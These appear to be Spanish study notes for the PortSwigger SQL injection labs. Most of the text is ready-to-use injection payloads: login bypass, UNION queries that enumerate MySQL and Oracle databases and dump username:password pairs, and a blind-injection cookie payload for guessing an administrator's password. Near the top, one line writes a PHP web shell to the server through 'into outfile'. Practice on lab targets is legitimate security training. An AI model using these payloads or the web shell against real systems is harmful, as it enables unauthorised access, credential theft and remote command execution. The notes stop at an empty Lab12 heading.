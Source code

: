 # SQL Intection 'PortSwigger' MySQL 


- Comando -> **burpsuite &> /dev/null &** Iniciamos el BurpSuite y lo mandamos a segundo plano
- Comando -> **disown** Para independizar el proceso del BurpSuite

- **union select "<? system($_REQUEST['cmd']) ?>" into "/var/www/html/outfile"** Podemos crear un archivo llamado Outfile que contenga un cmd que nos interpretara comandos. Despues del primer ? va php

### DATABASE - TABLES - COLUMS - DATA 
Asi se conforma una base de datos

#### Lab1 SQL injection vunerability in WHERE clause allowing retrieval of hidden ***'%s'***
Estamos haciendo que nos comente el esto de la query por ende nos debe de mostrar todo el contenido visible de la pagina.
	**’or 1=1-- -    o    'or 1=1#** 
- ***-- - o #*** -> Para comentar lo que hay en la derecha y no se interprete
- or 1=1 -> Devuelve un codigo de estado exitoso TRUE 

#### Lab 2 SQL injection vulnerability allowing login bypass ***'%s'***
De los dos campos que tenemos en un panel de autenticacion, estamos haciendo que nos comente el segundo campo y por ende no tome en cuenta la password.
	**admin'-- -** 
- ***-- -***  Para comentar lo que hay en la derecha y no se interprete

#### Lab3 SQL injection UNION attack, determining the number of columns returned by the query 
A veces el ordenar columnas hace que nos salga un error, con el cual nos podriamos dar una idea, cuando no sale es ahi el numero de columnas existentes.
	**'order by 10-- -** Haremos un ordenamiento de los datos, basandonos en la decima colmuna, de ahi se reduce hasta que no nos muestre el error
Una vez obtenido el numero de las columnas, utlizamos el UNION select para combinar datos
	**'union select 1,2,3-- -** 
* 1,2 -> El numero de columnas que hemos encontrado, en este caso son dos... Si fuera mas seria 1,2,3,4 etc... Si la pagina no te admite numeros, en ese caso poner NULL,NULL,NULL. 
Esto es para MySQL y Microsoft
	**'union select NULL,@@version -- -** Para saber la version de MySQL y Microsoft
	
#### Lab4 SQL injection union attack, finding a column containing text
Una vez obtenido el numero de las columnas, utlizamos el UNION select para combinar datos
	**'union select NULL,'snhsb',NULL-- -** Buscar que campo es inyectable para poder ingresar funciones o comandos.
Dependiendo del campo que sea injectable, podemos colocarle diferentes cosas para que nos reporte algo. Por ejemplo:
* version() -> Podemos usar esos campos para que nos muestre diferentes cosas, en este caso la version
* database() -> Si la segunda columna es inyectable, ahi podriamos hacer que nos muestre la base de datos que esta usando
* user() -> Que me muestre que usuario esta corriendo la base de datos actual 

#### Lab5,6 SQL injection UNION attack, retrieving data from other tables and retrieving multiple values in a single column
- Para listar las bases de datos existentes
	**'union select 1,2,schema_name from information_schema.schemata -- -** Pone el resultado en forma de lista
	**'union select 1,2,*group_concat*(schema_name) from information_schema.schemata -- -** Para saber cuantas bases de datos tenemos, 
pone resultado en una sola linea, este es mas conveniente para listar el usuario y su passwd
	**'union select 1,schema_name,3 from information_schema.schemata -- -** El schema_name siempre va en el campo que es inyectable.

- Para enumerar las tablas 
	**'union select 1,2,table_name from information_schema.tables -- -** Lista las tablas de todas las bases de datos existentes
	**'union select 1,2,table_name from information_schema.tables WHERE table_schema='*DBS*'-- -** Lista las tablas de una base de datos especifica

- Para enumerar las columnas 
	**'union select 1,2,column_name from information_schema.columns WHERE table_schema='*DBS*' and table_name='*TABLENAME*' -- -** Lista las columnas de una base de datos especifica, donde tambien tenemos una tabla especifica

- Para mostrar la data con concatenaciones
	**'union select 1,2,group_concat(*username*, ':' ,*password*) from *DB.TABLENAME* -- -** Muestra los datos de las columnas obtenidas en una sola linea delimitado por los dos puntos (**: = 0x3a** representacion en hexadecimal) Hacemos esto si la base de datos actual no es la que contiene los datos que queremos 
	**'union select 1,2,group_concat(*username*, ':' ,*password*) from *TABLENAME* -- -** Muestra los datos de las columnas obtenidas en una sola linea delimitado por los dos puntos siempre y cuando la tabla sea de la base de datos de la que le queremos extraer los datos
	**'union select 1,2,concat(*username*,':',*password*) from *TABLENAME* -- -** Muestra los datos de las columnas obtenidas en una sola linea delimitado por los dos puntos siempre y cuando la tabla sea de la base de datos de la que le queremos extraer los datos
	**'union select 1,2,*username*||':'||*password* from *TABLENAME* -- -** Muestra los datos de las columnas obtenidas en una sola linea delimitado por los dos puntos siempre y cuando la tabla sea de la base de datos de la que le queremos extraer los datos, esta es otra forma de concatenar, por la web no te deja con group concat
	**'union select 1,*username*,*password* from *TABLENAME* -- -** Muestra los datos de las columnas obtenidas en fila siempre y cuando la tabla sea de la base de datos de la que le queremos extraer los datos, aqui estamos ocupando dos campos que son inyectables

#### Lab7, SQL injection attack, querying the database type and version on Oracle
La tabla DUAL es una tabla especial de una sola columna presente de manera predeterminada en todas las instalaciones de bases de datos de Oracle.
	**'union select NULL,NULL from dual -- -** Debemos de agregar esa tabla en Oracle para que no nos de error 
	**'union select NULL,banner from v$version -- -** Para saber la version de Oracle 

#### Lab10 SQL injection attack, listing the database contents on Oracle
La tabla DUAL es una tabla especial de una sola columna presente de manera predeterminada en todas las instalaciones de bases de datos de Oracle.
	**'union select NULL,NULL from dual -- -** Debemos de agregar esa tabla en Oracle para que no nos de error 
	**'union select NULL,owner from all_tables -- -** Primero listamos contra los propietarios
	**'union select NULL,table_name from all_tables WHERE owner='*OWNERNAME*' -- -** Miramos las tablas existentes de un propietario especifico
	**'union select NULL,column_name from all_tab_columns WHERE table_name='*TABLENAME*' -- -** Miramos las columnas existentes de un propietario especifico
	**'union select 1,2,*username*||':'||*password* from *TABLENAME* -- -** Muestra los datos de las columnas obtenidas en una sola linea delimitado por los dos puntos siempre y cuando la tabla sea de la base de datos de la que le queremos extraer los datos, esta es otra forma de concatenar, por la web no te deja con group concat

#### Lab11 Blind SQL injection with conditional responses
- En este caso el vulnerable es el TrackID, por lo que cuando algo es correcto nos sale en la web 'Welcome Back!'
Ademas de esto debemos de saber el nombre correcto de la DB, username, y asi nosotros por medio de un script de python3 podriamos adivinar la password.
	**Cookie: TrackingId=v54JPAcaS7lKSevV; session=O3YFg0GqU8Wjyv9qBo6F4JDUQGxuTdfg** Es la original
- Para que el script fucnione debemos de saber la longitud de la password y eso se hace de esta manera:
	**Cookie: TrackingId=v54JPAcaS7lKSevV' and (select 'a' from *users* where *username*='administrator' and length(*password*)>=20)='a'-- -; session=O3YFg0GqU8Wjyv9qBo6F4JDUQGxuTdfg**
	* users -> DBs
	* username -> nombre de usuario valido 
	* password -> passwd que queremos encontrar
	* 20 es el tamano de la password y eso lo sabemos porque hasta ahi aun nos sigue saliendo el 'Welcome Back!'
Despues nos hacemos el script en python3 y obtenemos la password.


#### Lab12 Blind SQL injection with conditional errors
